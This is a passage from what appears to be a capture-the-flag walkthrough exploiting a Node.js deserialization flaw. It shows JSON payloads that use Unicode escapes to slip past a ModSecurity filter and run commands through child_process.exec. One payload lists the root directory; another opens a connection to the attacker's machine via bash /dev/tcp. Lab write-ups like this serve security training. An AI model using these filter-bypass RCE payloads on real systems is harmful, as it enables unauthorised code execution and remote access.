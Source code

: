 ![Unicode](images/portal_profile_unicode.png)

```bash
{"rce":"_$$ND_\u0046UNC$$_\u0066unction(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

![ModSecure bypass](images/portal_profile_rce_securitymodule_bypass.png)

Testing RCE with a connection back to our Kali we see that it works.

```bash
{"rce":"_$$ND_\u0046UNC$$_\u0066unction(){ require('child_process').exec(\"bash -c 'echo > /dev/tcp/10.10.14.8/9001'\", function(error, stdout, stderr) { console.log(stdout) }); }()"}
```
